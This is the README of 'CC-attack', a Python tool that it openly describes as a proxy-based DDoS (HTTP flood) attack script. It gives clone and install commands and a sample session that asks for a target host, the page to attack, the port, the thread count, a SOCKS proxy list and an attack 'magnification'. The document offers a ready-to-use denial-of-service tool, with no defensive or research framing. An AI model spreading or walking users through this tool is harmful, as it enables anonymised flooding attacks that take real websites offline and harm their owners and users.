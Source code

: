       ____ ____        _   _   _             _
     / ___/ ___|      / \ | |_| |_ __ _  ___| | __
    | |  | |   _____ / _ \| __| __/ _` |/ __| |/ /
    | |__| |__|_____/ ___ \ |_| || (_| | (__|   <
     \____\____|   /_/   \_\__|\__\__,_|\___|_|\_\

# CC-attack ![](https://img.shields.io/badge/Version-1.2-brightgreen.svg) ![](https://img.shields.io/badge/license-MIT-blue.svg)
Use Socks5 proxy to ddos(Http-Flood) attack.

(It supports socks4 too.)

And now it is upgraded to python3 version.

# License

MIT License

## News

Now the script support https. :)

## Install

    pip3 install pysocks
    git clone https://github.com/Leeon123/CC-attack.git
    cd CC-attack

## Usage

Target=http://xxx.com/index.html

    python3 cc.py
    
      ____ ____        _   _   _             _
     / ___/ ___|      / \ | |_| |_ __ _  ___| | __
    | |  | |   _____ / _ \| __| __/ _` |/ __| |/ /
    | |__| |__|_____/ ___ \ |_| || (_| | (__|   <
     \____\____|   /_/   \_\__|\__\__,_|\___|_|\_\
    Python3 version 1.2
                                Cobed by Leeon123
    >---------------------------------------------<
                If you want to stop
               this script, pls just
                 close the window.
    >---------------------------------------------<
    > Host/Ip:xxx.com
    > Https(y/n):n
    > Page you want to attack:/index.html
    > Port(Https default is 443):80
    > Threads:300
    > Proxy file path(proxy.txt):(Your socks5 list)
    > Number Of Proxies:(your proxies number)
    > Input the Magnification:(50-100)
